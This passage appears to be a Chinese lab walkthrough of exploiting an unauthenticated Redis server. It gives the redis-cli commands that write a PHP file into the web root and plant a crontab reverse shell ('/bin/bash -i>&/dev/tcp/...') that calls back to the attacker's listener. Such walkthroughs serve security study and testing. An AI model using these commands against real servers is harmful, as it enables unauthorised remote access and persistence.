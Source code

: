 利用条件:

```
1.靶机redis链接未授权，在攻击机上能用redis-cli连上，且未登陆验证 

2.开了web服务器，并且知道路径（如利用phpinfo，或者错误爆路经），还需要具有文件读写增删改查权限 （我们可以将dir设置为一个目录a，而dbfilename为文件名b，再执行save或bgsave，则我们就可以写入一个路径为a/b的任意文件。）
```

这里我选择把shell写到我的网站根目录下面

```
config set dir /var/www/html
```

命名为shell.php

```
config set dbfilename shell.php
```

向shell.php中写入内容

```
set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
```

\r\n\r\n表示换行,因为用Redis写入的文件会自带一些版本信息，如果不换行代码很有可能执行不了

最后save一下

![image-20210731191639156](images/11.png)

可以看到,shell.php已经写入了

访问一下

![image-20210731191749482](images/12.png)

## 利用crontab反弹shell

利用条件:以root身份运行

我在kali上开一个监听nc -lvp 2333

连接一下ubantu的Redis服务./redis-cli -h 192.168.121.132

执行命令

```
set xxx "\n\n/* * * * /bin/bash -i>&/dev/tcp/192.168.121.129/2333 0>&1\n\n"
config set dir /var/spool/cron 写入计划任务,到时间时会自动反弹shell
config set dbfilename root
save
```

![image-20210731201417828](images/13.png)

不过这里不知道为什么,在我的ubantu上,文件创建和写入都成功了,不过就是没有反弹shell

